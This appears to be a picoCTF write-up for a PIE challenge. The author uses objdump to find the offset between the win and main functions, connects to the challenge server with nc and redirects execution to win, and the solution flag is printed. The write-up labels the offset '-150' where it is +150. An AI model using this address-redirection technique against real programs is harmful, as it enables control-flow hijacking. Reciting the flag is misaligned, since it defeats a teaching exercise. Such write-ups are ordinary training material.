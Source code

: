 Fun time learning about binaries. So here I downloaded the c and binary file to my laptop. I used WSL to get access to sum specific tools I needed. I inputed the following into WSL command line:

```
objdump -d vuln | grep "<win>\|<main>"
```

here I got the following out put:

```
    11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi        # 133d <main>
00000000000012a7 <win>:
000000000000133d <main>:
    1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi        # 133d <main>
```

now we know the positions of the win and main, so the different between the two is:

```
0x133d - 0x12a7 = -150
```

okay so now open the webshell and we get the main address we need, for example:

```
escobara-picoctf@webshell:~$ nc rescued-float.picoctf.net 54133
Address of main: 0x58e4abf1333d
Enter the address to jump to, ex => 0x12345:
```

in python cli I did the following

```
hex(0x58e4abf1333d - 150)
```

Then I pasted the output from python into the program and I got the flag.

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}
```

